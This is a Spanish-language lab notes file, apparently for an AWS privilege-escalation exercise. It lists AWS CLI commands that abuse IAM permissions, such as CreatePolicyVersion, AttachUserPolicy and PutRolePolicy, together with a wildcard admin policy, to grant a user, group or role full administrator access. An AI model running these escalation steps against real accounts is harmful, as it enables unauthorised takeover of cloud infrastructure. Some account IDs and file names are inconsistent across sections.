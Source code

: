 # Permisos sobre Politicas
## iam:CreatePolicyVersion	
aws iam list-attached-user-policies --user-name privesc1-CreateNewPolicyVersion-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc1-CreateNewPolicyVersion --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc1-CreateNewPolicyVersion-role --role-session-name privesc1  
aws sts get-caller-identity --profile privesc1  
Crear el archivo admin_policy.json con el contenido  

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PermitirTodo",
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

aws iam create-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc1-CreateNewPolicyVersion --policy-document file://admin_policy.json --set-as-default --profile privesc1  
	
## iam:SetDefaultPolicyVersion  
aws iam list-attached-user-policies --user-name privesc2-SetExistingDefaultPolicyVersion-user  
aws iam create-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion --policy-document file://admin_policy.json  
aws iam get-policy --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion  
aws iam set-default-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion --version-id v2 --profile privesc2  
	
## iam:AttachUserPolicy  
aws iam list-attached-user-policies --user-name privesc7-AttachUserPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc7-AttachUserPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc7-AttachUserPolicy-role --role-session-name privesc7  
aws iam attach-user-policy --user-name privesc7-AttachUserPolicy-user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc7  
	
## iam:AttachGroupPolicy  
aws iam list-attached-user-policies --user-name privesc8-AttachGroupPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc8-AttachGroupPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc8-AttachGroupPolicy-role --role-session-name privesc8  
aws iam attach-group-policy --group-name privesc8-AttachGroupPolicy-group --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc8  
	
## iam:AttachRolePolicy  
aws iam list-attached-user-policies --user-name privesc9-AttachRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc9-AttachRolePolicy --version-id v1  
aws iam create-access-key --user-name privesc9-AttachRolePolicy-user  
aws iam attach-role-policy --role-name privesc9-AttachRolePolicy-role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc9  
	
## iam:PutUserPolicy  
aws iam list-attached-user-policies --user-name privesc10-PutUserPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc10-PutUserPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc10-PutUserPolicy-role --role-session-name privesc10  
aws iam put-user-policy --user-name privesc10-PutUserPolicy-user --policy-name politica --policy-document file://admin_policy.json --profile privesc10  
aws iam list-user-policies --user-name privesc10-PutUserPolicy-user  
	
## iam:PutGroupPolicy  
aws iam list-attached-user-policies --user-name privesc11-PutGroupPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc11-PutGroupPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc11-PutGroupPolicy-role --role-session-name privesc11  
aws sts get-caller-identity --profile privesc11  
aws iam put-group-policy --group-name privesc11-PutGroupPolicy-group --policy-name politica-PrivEsc2-Spartan --policy-document file://admin_politica.json --profile privesc11  
aws iam list-group-policies --group-name privesc11-PutGroupPolicy-user  
	
## iam:PutRolePolicy  
aws iam list-attached-user-policies --user-name privesc12-PutRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc12-PutRolePolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc12-PutRolePolicy-role --role-session-name privesc12  
aws sts get-caller-identity --profile privesc12  
aws iam put-role-policy --role-name privesc12-PutRolePolicy-role --policy-name politica-PrivEsc3 --policy-document file://admin_politica.json --profile privesc12  
aws iam list-role-policies --role-name privesc12-PutRolePolicy-role  

